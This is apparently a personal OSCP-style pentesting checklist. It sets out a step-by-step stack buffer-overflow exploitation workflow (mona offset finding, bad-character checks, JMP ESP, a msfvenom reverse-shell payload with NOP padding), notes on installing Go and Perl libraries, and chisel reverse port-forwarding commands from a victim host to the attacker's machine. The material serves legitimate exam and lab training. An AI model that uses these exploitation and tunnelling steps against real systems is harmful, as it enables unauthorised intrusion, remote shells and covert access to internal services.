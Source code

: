## BUFFER OVERFLOW

* [ ] Configure mona: `!mona config -set workingfolder c:\mona\%p`
* [ ] Crash the app with fuzzer
* [ ] Use pattern create to exploit `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <crashpoint+400>`
* [ ] Execute exploit and find distance: `!mona findmsp -distance <crashpoint+400>` (look for EIP contains normal pattern : ... (offset XXXX))
* [ ] Update exploit with offset variable and set retn to "BBBB"
* [ ] Run exploit again, check if EIP is 42424242 _Repeat until all bad characters are found_
  * [ ] Generate bytearray with mona: `!mona bytearray -b "\x00"`
  * [ ] Generate bytearray with python
  * [ ] Include python's bytearray in exploit.py and compare results: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`
  * [ ] Take note of bad characters and generate new bytearray in mona and python
* [ ] Find jump points `!mona jmp -r esp -cpb "<hex-bad-chars>"`
* [ ] Update retn from exploit.py with one of the jump points written backwards (e.g. "\x01\x02\x03\x04" in Immunity is "\x04\x03\x02\x01" in exploit)
* [ ] Generate payload: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c`
* [ ] Prepend NOPs: `padding = "\x90" * 16`
* [ ] Exploit

## TROUBLESHOOTING

### Bruteforce

* [ ] Verify if adding '/' to endpoint changes something: `/admin != /admin/`

### Go Libraries

* [ ] If an exploit requires a library that you don't have, you try the following:
  * [ ] Run `go install <library>`
  * [ ] Go the website, download the library, create a folder for it in `/usr/lib/go-1.18/src/` and add the .go files to that folder (e.g. for the library `"golang.org/x/crypto/pbkdf2"` I went to `https://pkg.go.dev/golang.org/x/crypto/pbkdf2`, downloaded the .go source files, and uploaded in `/usr/lib/go-1.18/src/pbkdf2`)

### Perl Libraries

* [ ] use `sudo cpan` and `install <library>` to add perl libraries

## TRICKS

### Port Forwarding

```bash
# First on Kali:
chisel server -p 9001 --reverse
# Then on host (victim):
chisel client <your-kali-ip>:9001 R:3306:127.0.0.1:3306 # 3306 for mysql, but could be any port you want
./chisel client 192.168.49.206:6003 R:27017:127.0.0.1:27017 # 3306 for mysql, but could be any port you want
```
